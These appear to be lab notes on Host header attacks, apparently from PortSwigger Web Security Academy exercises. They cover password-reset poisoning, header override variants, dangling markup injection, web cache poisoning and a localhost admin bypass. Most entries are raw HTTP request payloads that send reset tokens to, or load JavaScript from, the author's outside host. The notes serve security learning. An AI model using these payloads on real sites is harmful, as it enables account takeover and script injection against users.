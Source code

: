 ### Reset Password Poisoning

##### Host Header

```http
POST /forgot-password HTTP/2
Host: xle0x.com

username=carlos
```

The victim will click on the link `https://xle0x.com/reset-password?token=blahdfsfjf`

This sends the token to the `xle0x.com` server's logs.

> [!Bypass]
> **You could try to add another `Host` header with your server.**

##### Other Headers

```http
X-Forwarded-For: xle0x.com
X-Forwarded-Host: xle0x.com
X-Forwarded-Server: xle0x.com
X-HTTP-Host-Override: xle0x.com
Forwarded: xle0x.com
X-Host: xle0x.com
```

##### SUPPLY ABSOLUTE URL

```http
GET **https://vulnerable-website.com/** HTTP/1.1  
**Host: xle0x.com**
```

##### ADD A LINE WRAPPING

```http
GET /blah HTTP/1.1  
	Host: xle0x.com 
Host: vulnerable-website.com
```

##### Dangling markup injection

```http
POST /forgot-password HTTP/2
Host: 0a6b006704acc64181b8840800d60033.web-security-academy.net:1212"><img src="//xle0x?token=

username=carlos
```

When we change the host to `xle0x.com` I got 503 Gateway Error. But when I added the port part,  I bypassed it.
```html
"><img src="//xle0x?token=
```
This code called Dangling markup as it doesn't have a ending tag. It's trying to request your server. (The consequence of the attack is that the attacker can capture part of the application's response following the injection point, which might contain sensitive data. Depending on the application's functionality, this might include [CSRF](https://portswigger.net/web-security/csrf) tokens, email messages, or financial data.) This is used to bypass some filters and [content security policy](https://portswigger.net/web-security/cross-site-scripting/content-security-policy) ([CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy)).

---
### Web cache poisoning

###### Request:
```http
GET / HTTP/1.1
Host: 0a3100ec03d5949b826cbf3e00670008.h1-web-security-academy.net
Host: xle0x.com
```
###### Response:
```html
<script type="text/javascript" src="//xle0x.com/resources/js/tracking.js"></script>
```

After It got reflected I created a js file with the same path on my server. and the code executed!

### authentication bypass 

##### Request:
```http
GET /admin HTTP/2
Host: vulnerable-website.com
```

##### Response:
```http
HTTP/2 401 Unauthorized
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 5707
```

> [!NOTE]
> change the host to `localhost` or `127.0.0.1` and you may bypass it.

